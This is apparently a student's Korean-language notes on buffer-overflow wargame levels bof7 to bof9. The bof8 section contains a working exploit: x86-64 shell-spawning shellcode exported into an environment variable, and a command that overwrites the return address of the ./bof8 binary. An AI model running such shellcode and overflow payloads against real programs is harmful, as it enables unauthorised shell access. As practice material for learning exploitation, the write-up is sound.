




### bof7

- bof7은 나오는 대로 풀어보았다

- 버퍼의 크기에 따라서 주소가 달라지므로 그에 맞는 주소를 찾아서 그 주소로 불러오는게 핵심!

### bof8

- bof8은 buffer 사이즈가 정말 작다! 작다는 것은 버퍼에 쉘코드를 입력 못한다는 것 

- 그렇다면 getenv을 통해 shellcode를 불러오는 건데 전역변수로 설정되있는 shellcode에 값을 넣어주는 작업을 먼저 하고 그 다음에 그 전역변수의 주소를 불러오면 가능하다!

- 전역변수에 값을 넣는 함수는 export SHELLCODE=`python -c "print '\x90'*10+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'"`

- 이제 불러올 명령어는 (python -c "print 'x'*24+'\x24\xe8\xff\xff\xff\x7f'";cat) | ./bof8 가 된다!

일단 여기까지 풀었다는 증거!

### bof9

- 아니... 이게 무슨일이야... 코드가 다 주석이다 이것도 풀 수 있는 것인가.. 풀 수 있네 설명이 써있다

- 이제 친척들이 부른다... 죄송합니다 찬솔님... 여기까지가 끝인가 봅니다.. ㅠㅠ